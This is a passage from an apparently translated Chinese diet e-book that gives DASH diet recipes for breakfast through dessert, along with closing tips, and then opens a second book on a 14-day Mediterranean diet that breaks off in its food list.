- 在另一个碗中混合干性食材，然后倒入湿性混合物。搅拌至干粉消失。
- 给平底锅涂上油，将约四分之一的面糊倒入锅中。等待边缘熟透并观察是否冒泡。翻面煎另一面。装盘享用！

## 食谱 6：燕麦煎饼——全麦风格

煎饼固然美味，但可能富含脂肪和不必要的添加剂。不妨试试这个更健康的版本。

你需要：
- 1杯燕麦
- 半杯中筋面粉
- 半杯全麦面粉
- 1杯低脂牛奶或0%脂肪牛奶
- 2个鸡蛋
- 1勺植物油
- 1勺糖粉
- 3汤匙枫糖浆
- 一小撮盐

如何准备：
- 用搅拌机将燕麦磨碎。然后将其与面粉、牛奶、盐、鸡蛋和植物油混合。
- 搅拌至所有食材混合均匀。
- 加热煎锅并喷上烹饪喷雾。倒入约¼杯混合物，煎1至2分钟，或直到表面已经冒泡。再煎另一面。
- 享用时顶部撒上糖粉并淋上枫糖浆。尽情享用！

## 食谱 7：奶香胡椒鸡蛋

在这道食谱中，使用低脂或零脂牛奶对减脂大有帮助。

你需要：
- 3个鸡蛋，打散
- ¼杯牛奶
- ¼杯白洋葱或青葱
- ½杯切碎的甜椒
- ¼杯切碎的番茄
- 一小撮盐和胡椒
- 少许辣椒酱

如何准备：
- 加热平底锅并喷上烹饪喷雾。炒洋葱、番茄和甜椒。炒至食材变软。盛出备用。
- 在碗中混合牛奶、鸡蛋、盐、胡椒和辣椒酱。倒入锅中，不时搅拌并烹煮。
- 煮至鸡蛋凝固但仍保持湿润。关火并拌入蔬菜。尽情享用！

## 第 5 章——DASH 饮食午餐创意

在DASH饮食中，吃午餐必定是一种愉悦的体验。无需跳过午餐。以下是一些丰盛又美味的午餐食谱，你在家就能轻松尝试。

### 食谱 1：芝士蘑菇蔬菜卷饼

这是一道简单易做、清淡又令人满足的餐食。只需确保使用全麦薄饼或皮塔饼。

你需要：
- 2张全麦薄饼或皮塔口袋饼（8英寸圆形）
- 2至3杯切碎的蘑菇（香菇或波特贝勒菇）
- 250克芝麻菜或菠菜
- 半杯番茄丁
- 1茶匙蒜末
- 半杯低脂马苏里拉奶酪丝
- 1勺橄榄油

如何准备：
- 加热平底锅，淋上橄榄油。加入蒜末和蘑菇。炒至变褐。
- 在每张薄饼上依次铺上蘑菇、奶酪、番茄和菠菜。卷起后放入加热的平底锅中。
- 加热卷饼至奶酪融化。从锅中取出，切成两半。尽情享用！

### 食谱 2：美味火鸡香肠配土豆

与其使用牛肉，想要在不牺牲口味和营养的情况下减少多余脂肪，最好的方法是使用瘦肉。

你需要：
- 2至3个带皮红皮土豆
- 250克火鸡/鸡肉香肠
- 1个大洋葱
- 3勺橄榄油
- 1茶匙孜然籽碎
- 1茶匙百里香碎
- 一小撮盐和胡椒

如何准备：
- 加热平底锅并放入一些油。加入洋葱和土豆，煮10至12分钟，直到土豆变软。
- 将香肠切成薄片，混入土豆混合物中。你可以加入多达1勺油以防粘锅。
- 盖上锅盖6至8分钟，并经常搅拌。
- 加入盐、胡椒和孜然。趁热享用！

### 食谱 3：三文鱼皮塔卷饼

厌倦了平常的金枪鱼三明治？这是另一道富含欧米伽-3的食谱，能在帮助你缩小腰围的同时让心脏更健康。若想更健康，可用零脂酸奶和柠檬汁制作塔塔酱。

你需要：
- 1杯三文鱼条
- 1勺洋葱碎
- 1至2勺甜椒碎
- 2至3片生菜叶
- 3张皮塔饼（全麦）
- 1茶匙刺山柑
- 一小撮黑胡椒
- 3勺零脂酸奶
- 1勺柠檬汁
- 1勺橄榄油

如何准备：
- 加热平底锅并加入橄榄油。放入三文鱼条，煎1至2分钟。
- 将煎好的三文鱼、洋葱、甜椒和胡椒混合。
- 制作酱汁：在酸奶中淋入一些柠檬汁并搅拌。
- 在皮塔饼中切出口袋。放入1片生菜和一份混合馅料。加入一些酱汁。尽情享用！

### 食谱 4：DASH西兰花意面

谁说进行DASH饮食就不能吃意面？当然可以！这道食谱使用全麦意面，为身体补充所需的膳食纤维。

你需要：
- 400克全麦意面
- 4瓣蒜末
- ½杯帕玛森奶酪
- 6至7杯西兰花小朵
- 2至3勺橄榄油
- 一小撮盐和胡椒

### 如何准备：
- 在大锅中加入一小撮盐烧开水。加入西兰花和意面，煮约10分钟，或直到意面有嚼劲。沥干水，并留出半杯煮面水备用。
- 将锅放回炉上。加入橄榄油并炒香蒜末。转小火，加入意面。充分搅拌。
- 淋上橄榄油并撒上帕玛森奶酪。加入预留的煮面水充分拌匀，然后撒入盐和胡椒。尽情享用！

### 食谱 5：橙香鸡肉配绿叶菜

这是一道丰盛又健康的鸡肉食谱，带有淡淡柑橘风味，并因牛油果而更加浓郁。

你需要：
- 2至3块鸡胸肉
- 1杯零脂酸奶
- 2勺洋葱碎
- 2勺香菜末
- 一小撮盐和胡椒
- 2个中等大小橙子，剥皮并分瓣
- 1个牛油果，切片
- 1勺蜂蜜
- 2勺橙汁

### 如何准备：
- 混合除鸡肉、橙子、牛油果和青柠之外的所有食材。然后，将鸡肉放入混合物中，使其完全裹上腌料。冷藏30分钟。
- 沥去腌料，并在鸡肉上再撒一些胡椒和盐。
- 烤鸡肉——每面2至3分钟。
- 将牛油果与青柠汁拌匀。然后，将鸡肉摆入盘中。旁边用柑橘和牛油果作装饰。

### 食谱 6：风味鸡肉串

在DASH饮食中，鸡肉应作为瘦肉之外的蛋白质来源而受到青睐。试试这道绝妙的食谱，享受美妙风味。

你需要：
- 500克去骨鸡胸肉
- 1汤匙芥末
- 1勺青柠汁
- 半杯低脂或0%脂肪酸奶
- ¾茶匙咖喱粉
- 红或绿甜椒，切成1英寸厚
- 一小撮肉豆蔻
- 白洋葱，切成1英寸大小
- 红薯，切成1英寸大小
- 少许盐和胡椒

如何准备：
- 将鸡肉放入密封保鲜袋。备用。
- 混合酸奶、肉豆蔻、咖喱粉、芥末、青柠汁、胡椒和盐。将此混合物倒在鸡肉上。
- 封好袋子并翻动，使肉均匀裹上腌料。放入冰箱2至6小时。不时翻动以让风味分布均匀。
- 预热烤箱上火烤架/烤架。将鸡肉穿在金属烤签上——依次放入鸡肉、洋葱、甜椒和红薯。
- 每面烤5至8分钟，或直到肉熟透。你可以搭配糙米或皮塔饼食用。尽情享用！

### 食谱 7：意式火鸡肉丸

火鸡是红肉的另一绝佳替代品。你可以用这种瘦肉制作一道美味可口的食谱。

你需要：
- 500克火鸡肉末
- 1个大洋葱，切碎
- 半杯燕麦片
- 3汤匙零脂牛奶
- 1个青椒，切碎
- 1个打散的鸡蛋
- 3瓣蒜末
- 少许盐和胡椒
- 少许罗勒叶碎/欧芹碎
- 1勺克里奥尔调味粉/调味料

如何准备：
- 将烤箱预热至华氏350度。给烤盘涂上防粘涂层。备用。
- 在碗中混合火鸡肉、燕麦、牛奶、鸡蛋、洋葱、甜椒、盐、胡椒以及罗勒或你选择的任意意大利香草。
- 用冰淇淋勺将肉馅挖成肉丸，并摆放在烤盘中。
- 在华氏165度下烘烤30分钟。尽情享用！


## 第 6 章 – DASH 饮食晚餐创意

与健康清淡的餐食共度晚餐时光总是很美好。因此，这里有几道美味又易做的食谱，你一定会喜欢：

### 食谱 1：鱼与甜椒

鱼是DASH饮食允许食用的富含蛋白质的食物之一——胆固醇和热量都较低。

**你需要：**
- 250克鱼柳
- 1杯切碎的黄/绿甜椒
- 1个洋葱，切碎
- 1杯番茄丁
- 1至2杯蘑菇（香菇或波特贝勒菇）
- 2勺橄榄油
- 少许干牛至

**制作方法：**
- 将鱼切成大块，并用厨房纸巾拍干。
- 加热平底锅，加油，炒洋葱、甜椒和蘑菇。煮3至5分钟。盛出备用。
- 在锅中加一些油，将鱼煮7至10分钟。鱼肉呈片状易剥落时，就说明鱼已经熟了。
- 将炒好的蔬菜和番茄丁加入鱼中，再煮一分钟。尽情享用！

### 食谱 2：罗勒香料虾串

这是一道风味十足的美味佳肴。最好搭配全麦意面或糙米食用。

**你需要：**
- 300克大虾，去虾线、去壳
- 半杯磨碎的帕玛森奶酪
- 1杯切碎的新鲜罗勒
- 3勺橄榄油
- 1瓣大蒜
- 少许盐和胡椒，按口味调整

**制作方法：**
- 将奶酪、大蒜、罗勒、胡椒和盐放入食品加工机中混合。搅拌时逐渐加入油。
- 将虾放入香蒜酱混合物中腌制。冷藏至少1小时。
- 将腌好的虾穿在金属或木制签上。
- 放在烤架上，每面烤3至5分钟。尽情享用！

### 食谱 3：鲜爽鱼肉塔可

用鱼来做塔可，是享用这道人气美食的一种别样而独特的方式。加入墨西哥辣椒和青柠，给它增添刺激风味。

**你需要：**
- 250克罗非鱼柳
- 2至3个墨西哥辣椒，切碎，去籽
- 1个洋葱，切碎
- 1至2杯番茄，切丁
- 1杯卷心菜丝
- 3勺青柠汁
- 半杯切碎的香菜
- 1个牛油果，切薄片
- 少许盐和胡椒
- 玉米饼
- 4至5勺零脂酸奶

**制作方法：**
- 加热平底锅，加油，炒香大蒜和洋葱。加入罗非鱼，煮至鱼肉呈片状易剥落。
- 拌入香菜、番茄和辣椒，然后淋上青柠汁。随后用胡椒和盐调味。
- 将玉米饼加热，然后把煮好的鱼肉混合物舀到玉米饼上。放上牛油果薄片、酸奶和卷心菜丝。尽情享用！

### 食谱 4：健康菠菜意面

这是一道简单又健康的意面食谱，如果你没有太多时间准备晚餐，它再合适不过。

**你需要：**
- 350克全麦意大利面
- 200克嫩菠菜
- 4勺橄榄油
- 4至5瓣大蒜，切末
- ½杯帕玛森奶酪（磨碎）
- ½茶匙辣椒碎
- 少许盐和胡椒

**制作方法：**
- 锅中加盐烧水。放入意大利面，按包装说明煮熟。沥干，并保留一些煮面水备用。
- 平底锅中加热油，加入大蒜和辣椒碎；煮至大蒜呈浅棕色。放入菠菜翻炒一两分钟。
- 加入意大利面和磨碎的帕玛森奶酪。尽情享用！

### 食谱 5：番茄鸡肉米饭酿

用低钠肉汤煮成的米饭，是DASH食谱的绝佳补充。

**你需要：**
- 1块鸡胸肉
- 1杯糙米/野米
- 4个大番茄
- 半杯磨碎的帕玛森奶酪
- 1杯水和低钠蔬菜汤
- 1至2勺新鲜罗勒
- 2勺橄榄油

**制作方法：**
- 按包装说明，用水和低钠蔬菜汤煮米饭。
- 将烤箱预热至350华氏度。然后烤鸡胸肉。
- 与此同时，切去番茄顶部并挖出籽。米饭煮好后，放入一些大蒜、鸡肉和罗勒，然后撒上足量帕玛森奶酪。淋上少许橄榄油。
- 放入烤箱烤15至20分钟。尽情享用！

### 食谱 6：亚洲风味烤豆腐

豆腐吃起来像肉，却健康得多。试试这道充满浓郁亚洲风味的食谱。你一定会喜欢。

**你需要：**
- 1大块老豆腐，切块（400至500克）
- 1勺低钠酱油
- 3勺芝麻油
- 1勺枫糖浆
- 1勺苹果醋
- 1至2勺芥花籽油
- 1个洋葱，切片
- 一把荷兰豆
- 1茶匙芝麻
- 少许盐和胡椒

**制作方法：**
- 将烤箱预热至400华氏度。
- 在碗中拌匀豆腐、芝麻油、芥花籽油，并用盐和胡椒调味。将豆腐分散铺在烤盘上，放入400华氏度烤箱烤15分钟。
- 将枫糖浆、苹果醋和酱油混合，充分搅匀。
- 取出豆腐，加入荷兰豆并淋上酱汁。撒上一些芝麻。再烤5至7分钟。尽情享用！

### 食谱 7：意式烩饭与健康糙米

偶尔，你可以给自己来一份肉香浓郁、丰盛满足的犒赏。这道食谱使用羊肉。你也可以用猪肉或牛肉如法炮制。只要注意别把它变成日常晚餐的一部分即可。

**你需要：**
- 1千克去骨肩部烤肉
- 1勺咖喱粉
- 1个大青椒，切碎
- 2根胡萝卜，切碎
- 2至3杯减盐蔬菜汤
- 少许盐和胡椒
- 1杯糙米

**制作方法：**
- 去除羊肉上的脂肪。如果愿意，可以把肉切片，以便在慢炖锅或电炖锅中轻松烹煮。
- 在锅中喷一些防粘烹饪喷雾。将羊肉两面煎至棕色。沥去多余脂肪。
- 将蔬菜汤、糙米、盐和咖喱粉放入慢炖锅。把胡萝卜铺在上面，然后放入肉。
- 低温煮9小时，或高温煮4至5小时。
- 加入青椒，再煮5分钟。尽情享用！

## 第 7 章 – DASH 饮食零食创意

即使在遵循DASH饮食期间，你也可以每天吃2至3次零食。因此，这里有一些很棒的食谱可供你参考：

### 食谱 1：蔬菜馅墨西哥芝士饼

这道墨西哥美食通常以肉为馅。何不用蔬菜作馅，重新制作一个更健康的版本呢？

**你需要：**
- 5张软墨西哥饼，最好是全麦类型
- 1个洋葱，切成细条
- 2个甜椒，切成细条
- 半杯低脂奶油奶酪
- 1勺橄榄油
- 半茶匙辣椒粉
- 半茶匙孜然粉
- 一把香菜或欧芹

**制作方法：**
- 加热不粘煎锅，用橄榄油炒洋葱和甜椒4至5分钟，或炒至变软。加入辣椒粉和孜然粉，再煮一分钟。撒上一些欧芹，然后盛出备用。
- 将奶油奶酪涂在半张墨西哥饼上。铺上甜椒洋葱混合物，对折并按压。
- 在另一个煎锅中煮2至3分钟，轻轻按压，直到奶酪融化。你可以搭配莎莎酱食用。尽情享用！

### 食谱 2：香草坚果惊喜

坚果被认为很健康，尤其是烘烤后。试试这道很棒的食谱。

**你需要：**
- 2杯杏仁
- 1勺橄榄油
- 1勺切碎的迷迭香
- 少许犹太盐
- 少许红辣椒粉

**制作方法：**
- 将烤箱预热至325华氏度。
- 将所有配料放入碗中混合。轻轻翻拌，使坚果裹上配料。
- 在烤盘上铺锡纸，摆放坚果。
- 烤15至20分钟，或烤至坚果香脆。放凉。尽情享用！


### 食谱三：水果莓果三明治

这是一款非常美味的点心，不会占用你太多时间。非常适合作为周末或派对小吃。

你需要准备：
- 4个烤过的英式松饼——对半切开
- 250克低脂奶油奶酪
- 300到400克草莓，切片
- 1勺蜂蜜
- 1勺磨碎的柑橘皮屑

制作步骤：
- 将奶油奶酪、柑橘皮屑和蜂蜜混合搅拌至均匀。
- 将奶油奶酪混合物涂抹在松饼上。放上一些草莓片。
- 对其余的松饼半片重复同样操作。尽情享用吧！

### 食谱四：咖喱蘸酱蔬菜条

这是一道极其简单的免煮小吃食谱，你和家人朋友都会喜欢。

你需要准备：
- 2根胡萝卜，切成条状
- 3到4根芹菜，切成条状
- 200克低脂酸奶
- 3勺水果酸辣酱——桃子或芒果味
- 1勺咖喱粉

制作步骤：
- 将咖喱粉、水果酸辣酱和酸奶放入碗中混合。
- 提前切好蔬菜，直接蘸上这种美味的蘸酱即可。
- 你也可以提前制作蘸酱，只需放入冰箱冷藏。
- 你也可以使用其他蔬菜，如黄瓜和豌豆荚。

### 食谱五：自制芝士蒜香脆片

这是一款独特、美味又健康的小吃，将改变你吃薯片的方式。

你需要准备：
- 1包馄饨皮
- 3/4杯低脂奶酪（磨碎）
- 1茶匙大蒜粉
- 半茶匙辣椒粉
- 1勺橄榄油（用于刷面）

制作步骤：
- 在馄饨皮上刷一些橄榄油。
- 将馄饨皮沿着对角线对半切开，做成三角形薄片。
- 将切好的馄饨皮摆放在烤盘上，放在一边备用。
- 在碗中混合辣椒粉、磨碎的奶酪和大蒜粉。撒在馄饨皮上。
- 在350华氏度下烘烤8到10分钟，或烤至金黄色。冷却几分钟。上桌享用吧！

### 食谱六：DASH燕麦饼干

饼干确实很好吃，但其中的脂肪对身体不太友好。这个食谱让你可以尽情享用饼干。

你需要准备：
- 1杯即食燕麦片
- 2个鸡蛋（只用蛋清）
- 1杯面粉（中筋）
- 半杯低钠、低脂花生酱
- 半杯低脂人造黄油或黄油
- ½杯红糖
- 一小撮小苏打
- 3滴香草精

制作步骤：
- 使用电动搅拌器将花生酱和软化的黄油或人造黄油混合——大约搅拌30到40秒。
- 将小苏打和糖混合。加入香草精和鸡蛋。搅拌至完全融合。加入面粉，然后加入燕麦片。
- 用茶匙舀取面团。放在烤盘上，间隔至少2到3英寸。
- 在375华氏度下烘烤6到8分钟。冷却几分钟。尽情享用吧！

### 食谱七：无负担的乳制品浆果冻

浆果是维生素和矿物质的绝佳来源——它们也是抗氧化剂。你可以用低脂酸奶和这些小浆果制作一款极棒的小吃。

你需要准备：
- 1杯浆果（蓝莓、草莓、树莓）
- 椒盐卷饼棒或饼干棒
- 2到3杯低脂风味酸奶（芒果、香草等）

制作步骤：
- 将浆果和酸奶放入碗中混合。
- 舀入纸杯或冰棒模具中，然后用锡纸覆盖。
- 在中间戳一个小孔，插入椒盐卷饼棒或饼干棒。
- 放入冰箱冷冻几个小时。尽情享用吧！

## 第 8 章 – DASH 饮食甜点创意

### 食谱一：热带水果串

这是一款美味又健康的甜点，可以缓解你对甜食的渴望。

你需要准备：
- 10颗草莓
- 25颗黑莓
- 1杯菠萝块
- 1杯猕猴桃块
- 竹签
- 1杯零脂酸奶
- 240克零脂奶油奶酪
- 2勺蜂蜜

制作步骤：
- 简单地将水果串在竹签上。发挥你的创意。
- 混合奶油奶酪、蜂蜜和酸奶。用水果蘸取享用吧！

### 食谱二：DASH菠萝冰棒

这是一款清爽解暑的甜品，绝对能让你的腰围变得更纤细。

你需要准备：
- 2杯菠萝块
- 1/3杯菠萝汁
- 半杯轻椰奶
- 2茶匙糖

制作步骤：
- 将菠萝切块放入搅拌机。加入菠萝汁，搅拌至顺滑。
- 加入椰奶和糖，再搅拌一分钟。
- 将混合物倒入冰棒模具，放入冰箱冷冻。尽情享用吧！

### 食谱三：甜瓜冰饮

这款饮品冷藏后饮用最佳。你也可以使用西瓜或蜜瓜。

你需要准备：
- 2到3杯哈密瓜块
- 1杯新鲜橙汁
- 1杯零脂酸奶

制作步骤：
- 将所有食材放入搅拌机，搅打至顺滑。
- 放入冰箱冷藏至少2小时。尽情享用吧！

### 食谱四：浆果香蕉冰淇淋

香蕉是奶油的最佳替代品。你可以享受到美味的口感和细腻的质地，同时摄入更少的卡路里和脂肪。

你需要准备：
- 3根香蕉，切片
- 半杯零脂牛奶
- 1杯冷冻蓝莓
- 1汤匙香草精

制作步骤：
- 将香蕉片冷冻6到8小时。
- 冷冻好后，放入搅拌机，加入香草精和牛奶，搅打2到3分钟。
- 加入浆果，再搅打一分钟。尽情享用吧！

### 食谱五：免烤香蕉白巧克力派

你不需要烤箱，也不需要大师级的烘焙技巧，就能做出这款健康又美味的甜点。

你需要准备：
- 120克白巧克力，切碎
- 250克奶油奶酪
- 1到2根香蕉，切片
- 全麦饼干底
- 3汤匙酸奶油
- 半杯冷藏奶油
- 1/3杯糖
- 3到4滴香草精

制作步骤：
- 将切碎的白巧克力放入碗中。将碗放在装有微沸水的锅上。当巧克力稍微融化时，充分搅拌至完全融化。
- 将糖和奶油奶酪混合，搅拌至均匀顺滑。加入酸奶油。将冷藏奶油打发至足够坚挺。小心地将其拌入巧克力混合物中。
- 准备好全麦饼干底。铺上香蕉片。倒入混合物，放入冰箱冷藏2到3小时。尽情享用吧！

### 食谱六：橙香甜瓜冰沙

餐后来点清爽的甜品总是很棒。哈密瓜或甜瓜是绝佳选择。它富含维生素C和其他身体真正需要的矿物质。

你需要准备：
- 4到5杯哈密瓜块
- 1杯冰块
- 1/3杯鲜榨橙汁或你喜欢的任何柑橘汁

制作步骤：
- 将冰块、哈密瓜和橙汁一起放入搅拌机。
- 搅打约8到12秒，直到冰沙顺滑均匀。
- 立即享用。

### 食谱七：胡萝卜奶油奶酪蛋糕

与其总是用巧克力，为什么不试试用胡萝卜这样的蔬菜来做甜点呢？

你需要准备：
- 4杯胡萝卜，磨碎
- 4个大鸡蛋
- 1杯奶油奶酪
- 香草布丁蛋糕预拌粉
- ½杯鲜橙汁
- 1/3杯葡萄干
- 1勺肉桂粉
- 半杯山核桃
- 橙皮屑

制作步骤：
- 将烤箱预热至350华氏度。然后用植物油或任何不粘涂层涂抹蛋糕模具。在模具上撒一点面粉。放在一边备用。
- 将蛋糕布丁预拌粉、鸡蛋、橙汁和肉桂粉放入碗中。用电动搅拌器搅拌50秒或更久，直到完全混合。再搅拌一到两分钟，使混合物变得浓稠。
- 慢慢拌入坚果、磨碎的胡萝卜和葡萄干。将混合物倒入模具，放入烤箱。
- 烘烤30到40分钟，或直到蛋糕呈金黄色。用手轻轻按压蛋糕测试。当它弹回来时就说明烤好了。
- 从烤箱中取出。冷却10到15分钟。用面包刀或平铲沿模具边缘划一圈，将蛋糕从模具中取出并倒扣出来。冷却20分钟或更久。
- 同时，将奶油奶酪打发至浓稠。加入一些柠檬皮屑以增强风味。


-   将蛋糕水平切成两半。将奶油奶酪糖霜涂在其中一层蛋糕的顶部。加入一些切碎的山核桃。盖上另一层蛋糕，并同样操作。在顶部撒些橙皮屑。享用吧！

## 第 9 章 – DASH 饮食最终建议

开始DASH饮食一点也不难。你只需留意饮食原则，并准备好对自己的生活方式做出重大改变。实际上，该计划的基础内容已在前几章中提供。

不过，以下是一些确保你成功的建议：

### 循序渐进开始

你可能和几乎所有人一样，是个红肉爱好者。因此，突然转向吃水果和蔬菜会是一种折磨。你能做的是不要急于求成，只需逐步改变。一个不错的开始方式是用一顿符合DASH原则的食谱替代一天中的一餐。

### 甜点和零食选择低脂

你应该学会用更健康的选择来安抚自己对甜点的渴望。与其吃那块罪恶的巧克力蛋糕，为什么不选择全麦松饼，或者更好的是新鲜水果呢？你甚至可能想开始以硬糖或坚果作为零食。

### 避免酒精和糖

如果你真的想活得更健美、更健康，就应该学会戒掉糖和酒精。这些东西味道确实很好，但益处不如一杯低脂或零脂牛奶，或无添加糖的新鲜果汁。

### 阅读食品标签

在开始之前，你需要给食品储藏室备好DASH食品。为此，你必须学会识别这些食品。仔细检查标签，确保你购买的是新鲜、低脂、低钠和低热量的食品。例如，不要买普通白面包，而应选择全谷物面包。不要买白米，野生米、红米或糙米更合适。

### 不剥夺自己

采用DASH饮食无需挨饿，因为你可以一边吃美味食物，一边变得健康并减重。继续通常的一日三餐，并在两餐之间吃两次或更多零食。这就是这种饮食的美妙之处。用DASH减重，过上更健康的生活。

### 多摄入水果和蔬菜

饮食中蔬菜和水果的常规份量只有约半杯。要让DASH饮食奏效，理想的做法是将份量加倍。所以，不要半杯，而是一整杯。浆果是极佳选择，蔬菜则尽可能选择新鲜的，不过冷冻蔬菜也是允许的。大多数杂货店都有沙拉吧，并出售袋装即食蔬菜，省去你的负担。有这些便利，就没有理由不吃蔬菜和水果。

### 其他蛋白质来源

在选择为身体提供必要蛋白质的食物时要明智。红肉应尽可能限制。多吃鱼和禽肉等瘦肉。此外，还有许多优质健康的蛋白质来源，如豆腐、豆浆、坚果和种子。这些可以帮助你更有饱腹感，同时保持健康并缩小腰围。

### 当无法避免牛奶时

当然，牛奶是真正的享受。你用它做冰沙、烹饪、晨间咖啡等。在DASH饮食下喝牛奶并不是罪过。只需确保使用脱脂或低脂品种，就不会有问题。

### 避免垃圾食品

DASH饮食的目标之一是培养可以终身保持的健康饮食习惯。所以，学会丢弃垃圾食品。在这里，垃圾食品指任何加工、包装、重盐、含咖啡因、加糖和大量添加防腐剂的东西。因此，限制或忘掉杂货店里那些包装薯片、汽水、包装甜食。但不要太沮丧，你仍然可以吃这些，但作为“款待”。垃圾食品不应成为你日常膳食的一部分。

## 结论

再次感谢你下载本书！

我希望本书能帮助你获得更多关于高度可行的DASH减重饮食的信息——这个计划是什么、基本饮食指南、全天各餐包括零食和甜点的简易食谱。

为心脏健康和过多脂肪而挣扎是一件很难的事。有了这个革命性的饮食计划，你的烦恼可能瞬间消失。DASH 14天计划绝对是开启生活方式和饮食模式改变的绝佳方式。

下一步是运用本书中获得的知识，继续实施DASH计划。本指南中提供的食谱易于准备、健康、低胆固醇和低热量。踏上这个改变饮食和生活方式的挑战吧！

开始DASH，快乐又健康！

最后，如果你喜欢本书，我想请你帮个忙，能否在Amazon上为本书留下评论？不胜感激！

[点击此处为本书在Amazon上留下评论！](#)

谢谢，祝你好运！

# 14天地中海饮食食谱

## 适合初学者的完整地中海饮食

*关于我最喜欢饮食的额外信息*

*还有更多免费和特价书籍，请访问[KindleBookSpot.com](KindleBookSpot.com)*

## 目录

-   引言
-   第2章：14天膳食计划食物清单
-   第3章：地中海早餐食谱
-   第4章：地中海午餐食谱
-   第5章：地中海晚餐食谱
-   第6章：地中海甜点食谱
-   结论

## 引言

我想感谢并祝贺你下载《*地中海饮食：14天地中海饮食食谱*》一书。

本书包含令人垂涎、易于制作且属于健康地中海饮食的食谱。

如果你有兴趣发现为什么地中海饮食值得采用，请毫不犹豫地读到最后一章。你将有机会了解关于这种饮食健康益处的宝贵信息，学习如何将其应用于健康生活方式，并节省厨房时间。

本书可以作为你忠实的地中海饮食指南，为你提供按一天三顿主餐（早餐、午餐和晚餐）分类的食谱。它还包含专门讲甜点的特别章节，让你也能满足自己的甜食欲望。

再次感谢你下载本书，希望你喜欢！

## 在我们开始之前…… 额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！我希望你从中获得了极好的价值。我想通过提供更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想改变饮食和健康，你将获得的一切都会对你有用。我将提供：

-   我写的更多书
-   制作特色菜肴的视频
-   关于我最喜欢的健康相关产品的信息
-   以及更多！

**[点击此处获取所有这些信息！](#)**

## 第 1 章：地中海饮食：一种健康选择

研究表明，生活在地中海地区的人拥有最高的预期寿命之一。这显然与他们的饮食有关，这种饮食被认为是现代西方饮食的健康替代。选择地中海饮食会带来众多健康益处，首先是癌症和心脏病风险都会降低。此外，通过改用这种饮食，人们可以免受神经退行性疾病（如帕金森病或阿尔茨海默病）出现的影响。

地中海饮食金字塔以身体活动和与他人一起烹饪为基础。新鲜水果和蔬菜以及橄榄油和全谷物是每餐的一部分。建议每周至少吃两次鱼和其他海鲜，而乳制品和葡萄酒应适量食用。红肉和甜食位于金字塔顶端，这意味着应较少食用。

如果你决定尝试这种饮食，你将必须习惯于以新鲜水果和蔬菜、全谷物、豆类和坚果作为基础食物。黄油应替换为更健康的橄榄油，而香草和香料将用于为准备好的餐食增添风味（而不是盐）。面包是地中海饮食不可或缺的一部分，但仅限全谷物制成的面包。通常，它刚出炉就被蘸着橄榄油吃。

不同坚果作为地中海饮食的一部分被食用，因为它们含有健康脂肪。然而，建议适量食用。正如你将会有的

亲眼见证的机会，目的并不是完全消除脂肪，而是将更健康的脂肪融入饮食中。例如，在这种饮食中你不会看到含有饱和脂肪或反式脂肪的食物。

橄榄油仍然是健康单不饱和脂肪的主要来源，对整体健康有积极影响。橄榄油的规律摄入已被证明可以降低坏的低密度脂蛋白胆固醇水平；此外，特级初榨橄榄油是加工最少的，含有大量健康的抗氧化剂（抗癌保护）。

菜籽油也是这种饮食的一部分，因为它含有健康的 omega-3 脂肪酸，例如亚麻酸（也存在于坚果中）。通过食用这类油，你会享受更低的三酸甘油酯水平，同时降低血栓风险。Omega-3 脂肪酸以保护心脏健康而闻名，它们使血管更强壮并保持血压受控。这些健康的酸也存在于某些鱼类中，常作为地中海饮食的一部分食用（鳟鱼、沙丁鱼、鲭鱼、鲱鱼、三文鱼、金枪鱼等）。

乳制品，如鸡蛋、奶酪或酸奶，是健康地中海饮食的一部分。然而，就像家禽一样，建议适量食用。至于红肉和甜食，正如所说，它们是金字塔的顶端，这意味着应最少食用。

谈到地中海饮食中的饮料，适量饮用葡萄酒（尤其是红葡萄酒）是被鼓励的，因为它已被证明可以降低心脏病的风险。对女性而言，建议每日饮用量为一杯，而绅士每天可享用两杯。水是这种饮食的基础饮料，建议全天饮用。

重要的是要明白，地中海饮食不仅仅关乎食物，更是关于你对生活的看法转变。食物应与亲人一起享受和准备，因为这种持续的互动能确保更长久、更健康的生活。此外，身体活动与保持健康饮食同样重要，你应始终寻找更多活动的机会。

如果你一直想减肥，可以考虑尝试这种特定的饮食。不仅能帮助你减肥，还能保证理想的体重管理。这种饮食可以帮助你对抗各种慢性疾病并降低哮喘发作风险。它能保护你免受糖尿病或抑郁等严重疾病的影响。此外，它还能保证你生下更健康、更强壮的宝宝。

地中海饮食并不复杂且相当愉快。只需想象你将定期摄入的蔬菜和水果的新鲜口感和美味风味。它肯定会让你改变对肉类的看法，因为它鼓励少量食用。另一方面，它会激发你对海鲜的食欲，如贻贝、牡蛎或蛤蜊，尤其当你发现它们对心脏和大脑都有健康益处时。

有一些简单的步骤可以帮助你适应这种新饮食。例如，你可以每周一到两次开始烹饪完整的素食餐。你有多种蔬菜可供选择，更不用说豆类和全谷物了。此外，地中海餐食味道相当鲜美，得益于可使用的多种草药和香料。

转向全谷物也是推荐的，因为它们能提供许多健康益处。它们含有大量营养素，而且富含纤维，这意味着它们能长时间提供饱腹感。在推荐的全谷物中，你会找到不同类型的米、布格麦、法罗和大麦。此外，全麦面粉可用于制作各种菜肴，确保同样的健康益处。

谈到甜点，这可能需要一些适应，但从长远来看，它对你有益。把甜食留给特殊场合，改用新鲜水果作为甜点。有许多美味的水果可供选择，如无花果、石榴、苹果或葡萄，提供健康的维生素和营养。

## 第 2 章：14 天餐计划食材清单

如果你打算尝试两周的地中海饮食，不妨整理一下购物清单。本章中，我们包含了每个食物类别的若干建议。这样将更容易整理购物清单并开始你的地中海饮食之旅。

### 水果

苹果高度推荐，因为它们含有健康的抗氧化剂且富含纤维。牛油果被广泛使用，是脂肪和维生素E的良好来源。香蕉可以降低血压，而且富含纤维和钾。蓝莓最好在季节时购买，因其抗氧化特性而被推荐。其他属于地中海饮食的水果有：甜瓜、樱桃、葡萄、猕猴桃、柑橘类水果、桃子、梨、菠萝、石榴、草莓和西瓜。

### 干果

干果常是地中海饮食的一部分，但需适量食用，因为它们热量较高。它们都富含纤维并具有抗氧化特性。推荐的选择有：苹果、杏子、枣、无花果、西梅和葡萄干。干无花果还富含钙并可降低血压。葡萄干可以替代糖，且富含铁。

### 谷物

